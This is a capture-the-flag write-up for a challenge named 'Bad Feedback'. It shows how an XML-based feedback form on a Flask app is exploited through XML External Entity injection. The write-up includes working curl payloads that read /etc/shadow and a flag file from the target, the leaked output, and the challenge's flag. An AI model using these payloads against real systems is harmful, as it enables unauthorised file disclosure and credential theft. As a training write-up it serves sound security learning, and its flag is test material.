

# Bad Feedback - CTF Writeup

## Challenge Description

A company rolled out a shiny feedback form and insists their customers are completely trustworthy. Every feedback is accepted at face value, no questions asked. What can go wrong?

**Target:** http://15.206.47.5:5000

---

## Step 1: Initial Reconnaissance

Visiting the home page reveals a simple feedback form with two fields:
- Name (text input)
- Message (textarea)

**Server Information:**
- Server: Werkzeug/3.1.3 Python/3.11.14
- This indicates a Python Flask application

**Initial Test:**
We submitted test inputs to see how the application handles user input.

**Response:**
```html
<h2>Thank you for your feedback!</h2>
<p><strong>Name:</strong> test</p>
<p><strong>Message:</strong></p>
<pre>test</pre>
```

**Key Observation:** The server reflects our input directly in the response, suggesting potential injection vulnerabilities.

---

## Step 2: Discovering XML Input

By examining the page source, we discovered that the form sends data as XML instead of standard form-encoded data:

```javascript
document.getElementById('feedback-form').addEventListener('submit', function (e) {
    e.preventDefault();
    
    const name = document.getElementById('name').value;
    const message = document.getElementById('message').value;
    
    const xml = `<?xml version="1.0" encoding="UTF-8"?>
<feedback>
    <name>${name}</name>
    <message>${message}</message>
</feedback>`;
    
    fetch('/feedback', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/xml'
        },
        body: xml
    })
});
```

**Critical Discovery:** The form sends data as **XML**, which immediately suggests potential **XXE (XML External Entity)** vulnerability.

---

## Step 3: Testing for Other Vulnerabilities

Before jumping to XXE, we tested for other common vulnerabilities:

**SSTI Test:** We tried a common SSTI payload: `{{7*7}}`

**Response:**
```html
<h2>Thank you for your feedback!</h2>
<p><strong>Name:</strong> {{7*7}}</p>
<p><strong>Message:</strong></p>
<pre>{{7*7}}</pre>
```

**Result:** SSTI failed - the payload was reflected literally, not executed. The input is being escaped/sanitized for template injection.

---

## Step 4: Understanding XXE Vulnerability

Since:
1. The application accepts XML input
2. User input is reflected in the response
3. SSTI doesn't work (input is escaped)

This strongly suggests an **XXE (XML External Entity)** vulnerability.

### What is XXE?

XXE allows us to define external entities in XML that can:
- Read local files from the server
- Perform SSRF attacks
- Exfiltrate data

### XXE Payload Structure

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE feedback [
    <!ENTITY xxe SYSTEM "file:///path/to/file">
]>
<feedback>
    <name>&xxe;</name>
    <message>test</message>
</feedback>
```

**How it works:**
1. `<!DOCTYPE feedback [...]>` - Defines a custom DTD (Document Type Definition)
2. `<!ENTITY xxe SYSTEM "file:///path">` - Creates an external entity that reads from a file
3. `&xxe;` - References the entity, which gets replaced with the file contents

---

## Step 5: Confirming XXE Works

To verify XXE is possible, we tested reading a known file: `/etc/shadow`

**Payload:**
```bash
curl -X POST http://15.206.47.5:5000/feedback \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE feedback [
    <!ENTITY xxe SYSTEM "file:///etc/shadow"> 
]>
<feedback>
    <name>&xxe;</name>
    <message>test</message>
</feedback>'
```

**Response:**
```html
<h2>Thank you for your feedback!</h2>
<p><strong>Name:</strong> root:*:20409:0:99999:7:::
daemon:*:20409:0:99999:7:::
bin:*:20409:0:99999:7:::
sys:*:20409:0:99999:7:::
...
</p>
```

**✅ Success!** XXE is confirmed. We can read files from the server.

---

## Step 6: Enumerating for the Flag

The challenge states "Flag is in the root." We tried several common locations:

- `/flag` - File not found or empty
- `/root/flag` - File not found or empty
- `/flag.txt` ✅ - Success!

**Final Payload:**
```bash
curl -X POST http://15.206.47.5:5000/feedback \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE feedback [
    <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<feedback>
    <name>&xxe;</name>
    <message>test</message>
</feedback>'
```

---

## Step 7: Obtaining the Flag

**Response:**
```html
<h2>Thank you for your feedback!</h2>
<p><strong>Name:</strong> ClOuDsEk_ReSeArCH_tEaM_CTF_2025{b3e0b6d2f1c1a2b4d5e6f71829384756}</p>
<p><strong>Message:</strong></p>
<pre>test</pre>
```



**Flag:** `ClOuDsEk_ReSeArCH_tEaM_CTF_2025{b3e0b6d2f1c1a2b4d5e6f71829384756}`

---

## Solution Script

See [solve.py](./Resources/solve.py) for an automated solution script.

---

## Resources

- [XXE Injection Payload List](https://github.com/payloadbox/xxe-injection-payload-list)